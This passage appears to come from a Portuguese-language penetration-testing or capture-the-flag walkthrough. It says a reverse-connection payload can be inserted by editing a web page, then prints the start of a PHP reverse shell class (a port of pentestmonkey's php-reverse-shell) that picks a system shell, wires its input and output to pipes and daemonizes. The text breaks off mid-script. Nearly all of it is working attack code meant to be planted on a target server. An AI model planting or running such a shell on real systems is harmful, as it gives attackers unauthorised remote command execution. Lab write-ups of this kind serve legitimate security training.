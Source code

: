 Ao editar a página, podemos inserir um payload de conexão reversa, no meu caso utilizarei o seguinte:

```php
<?php
// Copyright (c) 2020 Ivan Šincek
// v2.4
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer  = 1024;    // read/write buffer size
    private $clen    = 0;       // command length
    private $error   = false;   // stream read/write error
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        if (stripos(PHP_OS, 'LINUX') !== false) { // same for macOS
            $this->os    = 'LINUX';
            $this->shell = '/bin/sh';
        } else if (stripos(PHP_OS, 'WIN32') !== false || stripos(PHP_OS, 'WINNT') !== false || stripos(PHP_OS, 'WINDOWS') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
        }
        return $detected;
    }
    private function daemonize() {
        $exit = false;
        if (!function_exists('pcntl_fork')) {
            echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";
        } else if (($pid = @pcntl_fork()) < 0) {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";
        } else if ($pid > 0) {
            $exit = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";
        } else if (posix_setsid() < 0) {
            // once daemonized you will actually no longer see the script's dump
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";
        } else {
            echo "DAEMONIZE: Completed successfully!\n";
        }
        return $exit;
    }
    private function settings() {
        @error_reporting(0);
```